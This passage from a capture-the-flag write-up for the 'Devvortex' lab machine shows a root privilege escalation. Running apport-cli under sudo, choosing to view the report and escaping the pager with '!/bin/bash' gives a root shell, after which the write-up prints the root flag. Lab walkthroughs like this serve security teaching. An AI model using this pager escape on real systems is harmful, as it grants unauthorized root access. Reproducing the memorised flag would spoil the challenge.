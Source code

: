 ```bash
sudo apport-cli -P 10610 -f

*** Collecting problem information

The collected information can be sent to the developers to improve the
application. This might take a few minutes.
.......................

*** Send problem report to the developers?

After the problem report has been sent, please fill out the form in the
automatically opened web browser.

What would you like to do? Your options are:
  S: Send report (6.3 KB)
  V: View report
  K: Keep report file for sending later or copying to somewhere else
  I: Cancel and ignore future crashes of this program version
  C: Cancel
Please choose (S/V/K/I/C): V
root@devvortex:/home/logan#
```

<p>After choosing "V", a different screen will show up. We can then enter "!/bin/bash" and press enter. We will become root.</p>

<p>We can then grab the root flag:</p>

```bash
cat /root/root.txt
6696e021cef172376451650f58ce1dfa
```

<p>That's all, folks!</p>
